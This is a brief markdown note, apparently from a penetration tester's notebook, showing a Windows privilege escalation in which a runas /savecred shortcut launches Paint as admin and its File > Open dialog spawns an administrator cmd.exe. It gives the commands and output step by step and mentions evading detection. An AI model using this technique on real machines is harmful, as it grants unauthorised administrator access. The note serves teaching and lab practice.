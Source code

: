 # Insecure GUI Apps

Some shortcut programs are highly unlikely to appear in cyber penetration sessions. Yet this technique was also used as a persistence technique just to modify the shortcut link.

## 01 - Enumerate

![[01 - MSPaint Shortcut Properties.png]]

This is what it looks like in the **Target** input field:

```
C:\Windows\System32\runas.exe /user:admin /savecred %windir%\System32\mspaint.exe
```

When we open the `AdminPaint.lnk` shortcut link. We run in the command prompt to find the `mspaint.exe` process.

```
C:\Users\user> tasklist /v | findstr mspaint.exe
mspaint.exe                   3972 RDP-Tcp#0                  2     29,244 K Running         WIN-QBA94KB3IOF\admin                                   0:00:01 Untitled - Paint
```

The process was running as a user called `admin` that is part of the **Administrators** group

## 02 - Exploit

We can exploit this to navigate our reverse shell but let's say we are on a RDP session just to evade detection and we only need to run a few commands using `cmd.exe` with administrator privileges unless it's needed.

While the MSPaint is still running we'll have to navigate to **File > Open** then we enter this in the dialog box:

```
c:/windows/system32/cmd.exe
```

![[02 - Open Command Prompt.png]]

Then click **Open** you've elevated to administrator access.

```
C:\Users\admin\Pictures> whoami
win-qba94kb3iof\admin
```

---
## References

### Internal All The Things

- [Internal All The Things: Windows Privilege Escalation](https://swisskyrepo.github.io/InternalAllTheThings/redteam/escalation/windows-privilege-escalation/)